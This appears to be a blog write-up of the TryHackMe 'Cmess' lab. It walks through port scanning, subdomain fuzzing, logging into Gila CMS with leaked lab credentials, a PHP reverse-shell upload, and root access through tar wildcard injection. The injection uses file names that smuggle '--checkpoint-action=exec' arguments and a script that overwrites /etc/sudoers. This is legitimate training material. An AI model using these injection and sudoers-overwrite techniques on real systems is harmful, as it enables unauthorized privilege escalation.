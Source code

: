 ```yaml
---
date: 2020-05-18
layout: post
title: "Cmess"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/cmess/cmess.png
optimized_image:
category: tryhackme
tags: 
author: cirius
paginate: false
---
```


Starting with what is told to do by machine author.
Making an entry for the ip in /etc/hosts.

Added ***10.10.10.185.18  cmess.thm*** to the /etc/hosts file.

Scanning for open ports gives,
```bash
nmap -T4 -p- -A 10.10.185.18
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   376.32 ms 10.8.0.1
2   376.38 ms cmess.thm (10.10.160.221)
```
The website hosted at port 80 contains robots.txt
![placeholder](/writeup/assets/img/cmess/robots.png "robot")

Accessing all the directories listed in robots.txt gives FORBIDDEN 403 error.
Directory and file file busting through ffuf gives
 ![placeholder](/writeup/assets/img/cmess/directory.png "directory")
 admin directory gives a login page.
 ![placeholder](/writeup/assets/img/cmess/login.png "login")
 The website is working with GilaCMS as written on the homepage.
 Nothing interesting found yet. Searching for exploits also is not much helpful as version of gilacms is still unknown.
 
 Then I thought to go for subdomains.
 ```bash
 ffuf -w sublists -u http://cmess.thm -H "Host: FUZZ.cmess.thm" -fw 522
 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 522
________________________________________________

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31]

## Here fw specifies the amount of words to filter. This can be set as first run the scan without fw and see the response which are getting 200 and
## note the number of words in their response.That number which is common in most use it as word filter(fw) in the next scan
```
So I got a subdomain dev.
Make an entry of this subdomain in the /etc/hosts file.
It will look like
![placeholder](/writeup/assets/img/cmess/hosts.png "hosts")

Now accessing the subdomain *dev.cmess.thm* gives
![placeholder](/writeup/assets/img/cmess/mail.png "mail")

Got an email and a password.

**andre@cmess.thm:KPFTN_f2yxe%**
Used it to login at the login page.
 ![placeholder](/writeup/assets/img/cmess/gila.png "gilacms")
 
Clicked on Content and then file manager and reached the directory where all the files related to website are stored.
Uploaded a php reverse shell with the upload option inside assets directory.

Accessed the php file at *http://cmess.thm/assets/phpshell.php* and got the reverse shell.
![placeholder](/writeup/assets/img/cmess/shell.png "shell")

Found .password.bak file inside /opt/. Found a password inside the file.
```bash
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
Used this password to login with ssh as andre user.
![placeholder](/writeup/assets/img/cmess/ssh.png "ssh")

Got the user.txt.

Uploaded Linpeas.sh using wget and ran it.

This showed a 99% P.E. Vector at a cron job
![placeholder](/writeup/assets/img/cmess/linpeas.png "cron")

This cronjob is using tar with wildcard(*).So I used wildcard injection.
Executed these commands.
```bash
echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1

##tar command uses **checkpoint-action=ACTION** argument to execute the ACTION on each checkpoint

##--checkpoint[=NUMBER]
  ##  display progress messages every NUMBERth record (default 10)
```
You can learn more about tar wildcard injection <a href="https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e">here></a>.

The above commands create three files
* A file named privesc.sh; which contains the commands I want to run
* A file named "--checkpoint-action=exec=sh privesc.sh";this will trigger the tar command to execute privesc.sh when a checkpoint is reached.
* A file named "--checkpoint=1"; this will make checkpoint-action to trigger at every 1th record read rather than default 10th record read.

Now when the cron job executes it creates an entry in sudoers file to grant andre user permission to run sudo for all commands without asking for password.

Changed the user to root.

```bash
sudo su
```

Got the root.txt.





 

